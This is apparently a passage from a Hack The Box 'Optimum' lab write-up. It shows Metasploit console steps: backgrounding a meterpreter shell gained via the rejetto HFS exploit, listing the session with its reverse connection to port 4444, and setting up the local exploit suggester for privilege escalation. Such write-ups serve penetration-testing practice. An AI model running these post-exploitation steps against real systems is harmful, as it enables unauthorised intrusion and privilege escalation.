 ### Privilege Escalation / System Rights

After going through the Metasploit module in HTB Academy, I learned about the `local_exploit_suggester` module.
Once an attacker has a meterpreter shell, they can background it and use it as a pivot point.

We'll start by using `bg` to background meterpreter.
We can see active sessions with the `session` command.

```bash
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(windows/http/rejetto_hfs_exec) > sessions 

Active sessions
===============

  Id  Name  Type                     Information               Connection
  --  ----  ----                     -----------               ----------
  1         meterpreter x86/windows  OPTIMUM\kostas @ OPTIMUM  10.10.16.5:4444 -> 10.10.10.8:49162 (10.10.10.8)
```

Next, we'll search for the `local_exploit_suggester` module and use our session as the pivot point.

```bash

msf6 exploit(windows/http/rejetto_hfs_exec) > msf6 post(multi/recon/local_exploit_suggester) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(windows/http/rejetto_hfs_exec) > use 0

msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.

msf6 post(multi/recon/local_exploit_suggester) > setg session 1
session => 1
```
